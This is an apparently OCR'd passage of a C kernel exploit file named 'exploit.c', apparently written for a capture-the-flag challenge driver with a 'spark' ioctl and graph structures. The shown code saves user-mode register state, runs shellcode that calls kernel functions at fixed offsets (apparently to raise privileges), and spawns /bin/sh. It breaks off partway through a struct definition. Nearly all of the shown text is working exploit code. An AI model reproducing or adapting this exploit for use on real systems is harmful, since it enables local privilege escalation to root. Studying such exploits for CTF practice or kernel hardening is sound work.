 ```exploit.c
void print_regs(struct pt_regs *regs)
{
  printf("r15: %lx r14: %lx r13: %lx r12: %lx\n", regs->r15, regs->r14, regs->r13, regs->r12);
  printf("bp: %lx bx: %lx r11: %lx r10: %lx\n", regs->bp, regs->bx, regs->r11, regs->r10);
  printf("r9: %lx r8: %lx ax: %lx cx: %lx\n", regs->r9, regs->r8, regs->ax, regs->cx);
  printf("dx: %lx si: %lx di: %lx ip: %lx\n", regs->dx, regs->si, regs->di, regs->ip);
  printf("cs: %lx flags: %lx sp: %lx ss: %lx\n", regs->cs, regs->flags, regs->sp, regs->ss);
}
void NIRUGIRI(void)
{
  char *argv[] = {"/bin/sh",NULL};
  char *envp[] = {NULL};
  execve("/bin/sh",argv,envp);
}
static void save_state(void) {
  asm(
      "movq %%cs, %0\n"
      "movq %%ss, %1\n"
      "movq %%rsp, %2\n"
      "pushfq\n"
      "popq %3\n"
      : "=r" (user_cs), "=r" (user_ss), "=r"(user_sp), "=r" (user_rflags) : : "memory" 		);
}

static void shellcode(void){
  asm(
    "xor rdi, rdi\n"
    "mov rbx, QWORD PTR [rsp+0x50]\n"
    "sub rbx, 0x244566\n"
    "mov rcx, rbx\n"
    "call rcx\n"
    "mov rdi, rax\n"
    "sub rbx, 0x470\n"
    "call rbx\n"
    "add rsp, 0x20\n"
    "pop rbx\n"
    "pop r12\n"
    "pop r13\n"
    "pop r14\n"
    "pop r15\n"
    "pop rbp\n"
    "ret\n"
  );
}

struct spark_ioctl_query {
  int fd1;
  int fd2;
  long long distance;
};

struct edge;
struct node_info;
struct node_struct;

struct edge{
  struct edge *next_edge;
  struct edge *prev_edge;
  struct node_struct *node_to;
  ulong weight;
};

struct node_info{
```